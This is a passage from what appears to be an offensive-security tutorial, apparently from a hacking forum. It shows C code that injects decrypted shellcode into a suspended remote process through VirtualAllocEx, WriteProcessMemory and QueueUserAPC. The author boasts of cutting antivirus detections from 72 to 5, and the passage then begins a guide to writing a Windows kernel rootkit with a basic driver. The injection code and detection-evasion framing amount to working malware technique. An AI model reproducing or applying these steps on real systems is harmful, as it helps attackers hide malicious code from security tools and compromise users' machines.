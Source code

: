 ```c
LPVOID memAlloc = pVirtualAllocEx(pHandle, 0, scSize, MEM_COMMIT, PAGE_EXECUTE_READ);
```

The shellcode, which was previously decrypted, is now written into the allocated memory space within the target process using the `WriteProcessMemory` function.

```cpp
DWORD wMem = pWriteProcessMemory(pHandle, (LPVOID)memAlloc, shellcode, scSize, &bytesWritten);
```

With the shellcode successfully injected into the target process's memory, the code prepares for its execution. This is done using the `QueueUserAPC` function, which enqueues the shellcode for execution within the context of a specific thread within the target process.


```c
if (pQueueUserAPC((PAPCFUNC)memAlloc, hThread, NULL)) {
    pResumeThread(hThread);
}
```

Now, let's verify the success of our concealment strategy by injecting the shellcode into a suspended process and manipulating the memory space within the context of the process's thread.

<img src="https://0x00sec.s3.amazonaws.com/optimized/3X/6/d/6d86c980ea7f7e26893e91cd7363036fec189849_2_690x169.png" alt="CCC">

Among the initial 72 detections, we've successfully narrowed it down to a mere 5. We commenced with 27 detections, which subsequently decreased to 9, and now we find ourselves with just 5 remaining, and we can keep it going and I'm pretty sure we hit that big zero, This overarching perspective emphasizes the importance of having a diverse array of techniques in your arsenal.

## Writing a simple Rootkit
Kernel mode rootkits operate at the most privileged level, known as "Ring 0," in the computer's architecture. In contrast, user mode rootkits run at "Ring 3," which is a lower privilege level.

In order to grasp the workings of kernel mode rootkits, it is essential to have a solid grasp of the basics of Windows device drivers. Essentially, a device driver is a software component responsible for interfacing with hardware and managing Input/Output Request Packets (IRPs).
### Writing a Windows Device Driver

Let's start by building a basic Windows device driver:

```c
#include "ntddk.h"

NTSTATUS DriverEntry(IN PDRIVER_OBJECT DriverObject, IN PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello World!");
    return STATUS_SUCCESS;
}

```

This simple driver initializes and prints "Hello World!" to the kernel debugger. However, to perform more complex tasks, we need to understand IRPs.
